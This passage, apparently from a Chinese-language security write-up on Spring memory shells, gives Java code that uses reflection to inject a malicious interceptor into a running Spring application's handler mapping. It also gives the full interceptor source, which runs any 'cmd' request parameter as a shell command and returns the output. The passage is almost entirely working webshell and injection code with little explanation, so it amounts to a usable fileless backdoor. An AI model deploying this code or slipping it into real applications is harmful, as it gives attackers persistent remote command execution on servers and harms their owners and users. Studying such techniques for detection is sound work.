 ```java
        //通过LiveBeansView获取顶级Context
//        Field field=Class.forName("org.springframework.context.support.LiveBeansView").getDeclaredField("applicationContexts");
//        field.setAccessible(true);
//        WebApplicationContext applicationContext=(org.springframework.web.context.WebApplicationContext) ((java.util.LinkedHashSet)field.get(null)).iterator().next();

        //通过ContextLoader.getCurrentWebApplicationContext() 来获取上下文
        WebApplicationContext applicationContext = ContextLoader.getCurrentWebApplicationContext();


        //通过IOC容器get到AbstractHandlerMapping
        AbstractHandlerMapping handlerMapping=applicationContext.getBean("requestMappingHandlerMapping", AbstractHandlerMapping.class);
        Field field1=AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
        field1.setAccessible(true);
        ArrayList<Object> adtedinterceptors =(ArrayList<Object>)field1.get(handlerMapping);
        TestInterceptor evilInterceptor=new TestInterceptor();
        adtedinterceptors.add(evilInterceptor);
        return "inject sucessfully";
    }
    
}
```

然后是恶意 interceptor 的内容
```java
package com.stoocea.Interceptor;

import org.springframework.web.servlet.HandlerInterceptor;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.InputStream;
import java.io.PrintWriter;
import java.util.Scanner;

public class TestInterceptor  implements HandlerInterceptor {

    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        String url = request.getRequestURI();
        PrintWriter writer = response.getWriter();

        if (request.getParameter("cmd") != null) {
            boolean isLinux = true;
            String osTyp = System.getProperty("os.name");
            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                isLinux = false;
            }
            String[] cmds = isLinux ? new String[]{"sh", "-c", request.getParameter("cmd")} : new String[]{"cmd.exe", "/c", request.getParameter("cmd")};
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            Scanner s = new Scanner(in).useDelimiter("\\A");
            String output = s.hasNext() ? s.next() : "";
            response.getWriter().write(output);
            response.getWriter().flush();
        }
        return true;

    }
}

```